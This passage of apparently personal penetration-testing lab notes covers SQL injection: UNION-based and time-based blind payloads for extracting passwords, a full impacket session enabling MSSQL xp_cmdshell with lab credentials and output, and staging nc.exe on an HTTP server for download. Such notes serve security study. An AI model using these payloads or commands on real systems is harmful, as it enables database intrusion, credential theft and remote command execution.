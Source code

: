 ```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='admin' and password_col like 'a%'
MSSQLMSSQL```
	Find passwords  
  
  
  
### Time-Based Blind SQLi:
Similar to Boolean-Based, but the time it takes for the query to complete indicates whether the the query is correct or not.  
  
Time delay method SLEEP(x) is added alongside UNION statement, whereby SLEEP(x) will only get executed upon a successful UNION SELECT statement.  
```sql
false_user' UNION SELECT SLEEP(5);--
```
  
##### Can then craft enumeration queries as shown above ^^  
  
  
# Code Execution

Depends on OS, service privileges, & filesystem permissions.

## MSSQL - *xp_cmdshell*
- Takes a string and passes it to a cmd shell for execution.  Function returns any output as rows of text
	- Disabled by default and must be called w/ the **EXECUTE** keyword instead of SELECT

##### Enabling *xp_cmdshell* in Linux
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
	Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
	...
	SQL> EXECUTE sp_configure 'show advanced options', 1;
		[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
	SQL> RECONFIGURE;
	SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
		[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
	SQL> RECONFIGURE;
	EXECUTE xp_cmdshell 'whoami';
		output
		...
		nt service\mssql$sqlexpress
		
		NULL
```

##### Enabling *xp_cmdshell* in Web Form
```sql
-- Test for vuln param
'; WAITFOR delay '0:0:10';-- 

'-- Find out dbs version to find possible vulns
-- Not working, not sure how to find possible vuln avenues - '; IF(CHARINDEX('15.0.',@@VERSION)>0) WAITFOR DELAY '0:0:15'--

-- Copy Window's nc.exe to folder and create web server
cp /usr/share/windows-resources/binaries/nc.exe ~/exercises/web 
python -m http.server 80

```